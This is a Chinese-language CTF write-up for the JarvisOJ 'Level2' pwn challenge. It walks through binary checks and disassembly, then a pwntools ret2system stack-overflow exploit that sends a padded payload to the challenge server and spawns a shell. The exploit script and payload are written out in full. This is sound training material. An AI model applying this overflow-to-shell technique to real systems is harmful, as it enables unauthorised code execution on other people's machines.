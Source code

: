 # JarvisOJ-PWN-Level2

## 0x01 文件检查
```shell
file level2 
```



32位文件

```shell
checksec level2
```



开了NX保护
不过系统好像提供了shell脚本

## 0x02 反汇编


main函数调用了vulnerable_function函数


开辟的缓冲区大小是0x88h,再加上ebp 的0x4h就跳到了返回地址了，然后就是去找system函数的地址,无论是main函数还是vulnerable_function函数都是通过call _system的方式调用system


system的函数有了，然后就是调用的参数解释器了_bin_sh，shift+F12搜一下

地址是0x0804A024
当然也可以用pwntools直接从elf中提取
```python
from pwn import *
elf = ELF('./level2')
sys_addr = elf.symbols['system']
sh_addr = elf.search('/bin/sh').next()
```

栈的结构图
![](README/A5FA4027-C133-48BF-99FE-736A68F58759.png)
https://img-blog.csdn.net/20180419142744130?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2dpdGh1Yl8zNjc4ODU3Mw==/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70

那么payload就是
```
payload = "a"*(0x88+0x4)+p32(0x0804849E)+p32(0x0804A024)
```

最后的全代码就是
```
*from*pwn *import**

conn = remote(*'pwn2.jarvisoj.com'*,9878)
conn.recvline()
payload = *"a"**(0x88+0x4)+p32(0x0804849E)+p32(0x0804A024)

conn.send(payload)

conn.interactive()


```
